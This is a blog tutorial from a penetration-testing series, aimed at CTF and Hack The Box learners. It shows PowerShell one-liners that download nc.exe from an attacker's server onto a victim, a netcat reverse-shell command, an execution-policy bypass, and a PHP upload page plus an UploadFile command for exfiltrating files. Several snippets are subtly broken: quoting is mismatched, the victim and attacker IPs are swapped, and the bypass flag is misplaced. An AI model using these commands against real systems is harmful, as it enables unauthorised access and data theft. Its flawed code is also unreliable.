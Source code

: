 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Downloading And Exfiltrating"
author: nanobyte
date:   2020-08-31
description: PowerShell for Penetration Testing, and how to download files to a victim machine, and exfiltrate data from the victim machine
tags: PowerShell
---
```


This next installment in the Powershell For Penetration Testers looks into how an attacker can introduce files to a victim machine through a PowerShell download, as well as how to use PowerShell to upload files rom a victim machine to your attacking box. I recently decided to continue on with this series to help other new comers into the field to learn as I learn. I recently used these skills on a recent Hack The Box machine, which if I remember to, will post the link to the writeup as a practical example.

<h1>Downloading Files with PowerShell</h1>

Using a PowerShell session, an attacker can quickly download files to a victim machine rather quickly. There are hundreds of examples mroe intense then what I will show you, but here are my two methods and go-to's which I attempt whenever I am performing an attack. In the examples to follow, I will assume that I am attempting to download `nc.exe` to the victim machine, which I would then plan to use to call a reverse shell back to my attacking machine. I will assume that the victim machine I am attacking is a Windows based Operating System, and I am using Kali Linux as my attacking box. Luckily, PowerShell is installed on all Windows platforms, including Windows IoT Core (hint for the Hack The Box machine).

Please also assume that my Kali Linux has a HTTP server running (This can be Apache, Python's SimpleHTTPServer, whatever you prefer) and has an IP of 10.10.10.2, where the Windows machine is 10.10.10.1. 

<h2>Invoke-WebRequest</h2>

The first example is a quick one that can easily be remembered, using a PowerShell cmdlet:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

This command first calls PowerShell to run a command with the `-c` flag. This is shortened from the `-Command` flag. This also assumes that you are on the machine with a command prompt. Then, the command is actually executed, first making a directory to save our `nc.exe` binary to. The following command then uses the `Invoke-WebRequest` cmdlet to download our file from the web server, and saves it to the `C:\temp` directory.

We could further this command by then calling `& c:\temp\nc.exe -e cmd.exe 10.10.10.1 1337` to connect back to our reverse shell (but that is outside of this article) to further our attack as a one-liner.

<h2>System.Net.WebClient</h2>

However, I frequently find that this is not the preferred method in Hack The Box or other CTF's to download files to victims. This brings us to our next approach, using PowerShell's `System.Net.WebClient`:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2/nc.exe','C:\temp\nc.exe')"
{% endhighlight %}

This is similar to the example above, creating the directory before downloading, only using a .NET class to download.

<h2>Remember -ExecutionPolicy Bypasss</h2>

Along with PowerShell, remembe that there are sometimes restrictions placed onto the PowerShell session you may be running. I already have an article describing how to beat these execution policies, found <a href="/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">here</a>. To make sure that you beat these restricted execution methods, quickly throw a `-exec bypass` before your download command:

{% highlight bash linenos %}
powershell -c "-exec bypass mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

<h1>Exfiltrating Data<h2>

This is a method where you use a HTML server running on your Kali Linux attacking machine, where PowerShell can upload a file from a victim machine to your Kali. First, we will need to create a PHP page to process our upload request. This can be found here:

{% highlight bash linenos %}
<?php
$uploaddir = '/var/www/uploads';
$uploadfile = '$uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
{% endhighlight %}

Also, make sure that the upload directory exists in your Kali Linux. Once saved adn created into our `/var/www/html` directory as `upload.php`, start and stop our local Apache processes:

{% highlight bash linenos %}
sudo service apache2 status
/etc/init.d/apache2 start
/etc/init.d/apache2 stop
{% endhighlight %}

And once running, call the PowerShell command to exfiltrate the data you require:

{% highlight bash linenos %}
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.10.1/upload.php, 'file.txt')"
{% endhighlight %}

And check your upload directory for the file!

Thank you for reading, please keep coming back for more in this series as nanobyte learns and updates PowerShell For Penetration Testers!
